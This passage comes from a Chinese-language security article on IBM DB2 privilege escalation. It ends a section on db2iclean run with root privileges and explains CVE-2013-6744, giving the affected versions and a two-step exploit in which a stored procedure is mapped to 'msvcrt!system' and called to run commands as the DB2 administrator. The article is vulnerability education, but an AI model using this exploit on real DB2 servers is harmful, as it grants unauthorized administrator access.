 可见此时euid为0，代码以root权限运行

![pic52](http://drops.javaweb.org/uploads/images/336ca8b9f1a91af95d12c429564421c19c41a983.jpg)

注意：由于db2iclean不是公开执行权限，所以攻击者需要使用db2iadm1组用户执行，或诱使该组成员在攻击者写入了恶意库文件的目录下执行该程序。

CVE-2013-6744
-------------

CVE-2013-6744是DB2在windows平台下的提权漏洞，利用该漏洞将使windows普通用户获取到Administrator权限

存在漏洞的DB2版本：

*   9.5, 9.7 FP9a之前版本
*   10.1 FP3a之前版本
*   10.5 FP3a之前版本

利用该漏洞需要有一个可以连接DB2数据库的用户，且该用户具有创建外部例程的权限(CREATE_EXTERNAL_ROUTINE)

该漏洞原理为：在Windows平台特权帐户默认情况下，DB2服务运行时并不受访问控制检查，这意味着可以通过CREATE_EXTERNAL_ROUTINE权限创建一个库文件并且形成调用，从而权限得以提升。

漏洞利用步骤：

1.使用具有CREATE_EXTERNAL_ROUTINE权限的用户运行以下DDL，利用C runtime system来创建一个存储过程：

```
CREATE PROCEDURE db2_exec (IN cmd varchar(1024)) EXTERNAL NAME 'msvcrt!system' LANGUAGE C DETERMINISTIC PARAMETER STYLE DB2SQL

```

2.调用刚才创建的存储过程：

```
CALL db2_exec('whoami /all > C:\whoami.log')

```

查看命令创建的whoami.log文件，发现包含了db2admin信息。这意味着，我们用一个非管理员账户成功用管理员权限执行了命令。

0x07 参考
=====

*   [http://en.wikipedia.org/wiki/IBM_DB2](http://en.wikipedia.org/wiki/IBM_DB2)
*   [http://www.ibm.com/developerworks/cn/data/library/techarticles/dm-0503melnyk/](http://www.ibm.com/developerworks/cn/data/library/techarticles/dm-0503melnyk/)
*   [http://www.sqlinjectionwiki.com/Categories/7/ibmdb2-sql-injection-cheat-sheet/](http://www.sqlinjectionwiki.com/Categories/7/ibmdb2-sql-injection-cheat-sheet/)
*   [http://www-01.ibm.com/support/docview.wss?uid=swg21672100](http://www-01.ibm.com/support/docview.wss?uid=swg21672100)
*   [http://blog.spiderlabs.com/2014/07/about-two-ibm-db2-luw-vulnerabilities-patched-recently.html](http://blog.spiderlabs.com/2014/07/about-two-ibm-db2-luw-vulnerabilities-patched-recently.html)